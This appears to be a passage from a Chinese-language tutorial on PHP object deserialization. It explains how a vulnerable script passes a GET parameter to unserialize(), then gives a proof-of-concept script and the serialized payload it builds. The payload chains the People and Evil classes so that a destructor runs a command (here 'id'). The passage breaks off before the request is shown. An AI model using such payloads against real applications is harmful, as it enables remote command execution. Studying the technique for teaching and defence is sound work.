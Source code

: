 先分析下代码，$_GET['str'] 获取 get 参数 str 值，然后传递给 unserialize 进行反序列化操作，这就是导致漏洞的地方。

那么我们该如何利用呢？审查整份代码，发现 Evil 类中的命令执行方法 run()，如果能控制其中的 $cmd 变量就可以实现远程命令执行。在 People 类的 __construct 方法中有属性赋值操作，将 Student 对象赋值给 $type 属性。

同时，在 __destruct 方法中有调用 run() 方法的操作，因此我们可以设法此这些操作关联起来，写出利用代码去生成用来实现命令执行的序列化字符串。

poc.php 利用代码如下：

复制代码

```
<?php

  class People {

    private $type;



    function __construct(){

      $this->type = new Evil();

    }

  }

  class Evil {

    var $cmd = 'id';

  }

  $people = new People();

  $str = serialize($people);

  echo $str;

?>
```

运行生成序列化字符串：

复制代码

```
$ php poc.php

O:6:"People":1:{s:12:"Peopletype";O:4:"Evil":1:{s:3:"cmd";s:2:"id";}}
```

里面的 "Peopletype" 又被吃掉 \x00 了，得补回去，然后将上述字符串作为 get 参数 $str 的值发送给 vul.php：

复制代码
